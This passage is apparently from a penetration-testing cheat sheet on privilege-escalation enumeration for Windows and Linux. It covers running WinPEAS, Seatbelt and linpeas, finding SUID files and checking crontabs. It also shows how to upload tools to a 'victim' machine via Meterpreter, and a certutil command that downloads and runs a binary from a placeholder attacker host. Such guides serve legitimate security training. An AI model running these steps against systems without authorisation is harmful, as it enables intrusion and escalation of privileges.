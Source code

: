     :: Find weak file permissions
    icacls "C:\Program Files\Vulnerable Software\*"

    :: Automated scripts (UPLOAD THESE FIRST)
    :: The correct way to execute them from the command prompt:
    WinPEASany.exe
    Seatbelt.exe

    :: If the current directory is not in your PATH, you might need to specify it (but usually you run it from the dir it's in)
    :: C:\Tools\WinPEASany.exe
    ```
    **Crucial Note:** You must first *upload* these tools (WinPEAS, Seatbelt) from your attacking machine to the victim Windows machine.
    *   **From a Meterpreter session:** Use the `upload` command.
        ```bash
        meterpreter > upload /usr/share/windows-resources/winpeas/winpeasany.exe C:\\Windows\\Temp\\
        meterpreter > upload /opt/Seatbelt/Seatbelt.exe C:\\Windows\\Temp\\
        meterpreter > shell
        C:\Windows\Temp> winpeasany.exe
        ```
    *   **From a standard shell:** Use a web server and `certutil`.
        ```bash
        # On YOUR attacking machine (Kali):
        python3 -m http.server 80

        # On the VICTIM Windows machine (cmd.exe):
        certutil -urlcache -f http://YOUR_IP/winpeasany.exe winpeasany.exe
        winpeasany.exe
        ```
*   **Linux:**
    ```bash
    # System Information
    uname -a
    sudo -l # Check sudo rights

    # Find SUID/GUID files
    find / -perm -u=s -type f 2>/dev/null
    find / -perm -g=s -type f 2>/dev/null

    # Check crontabs
    crontab -l
    ls -la /etc/cron*

    # Automated scripts
    ./linpeas.sh
    ```

---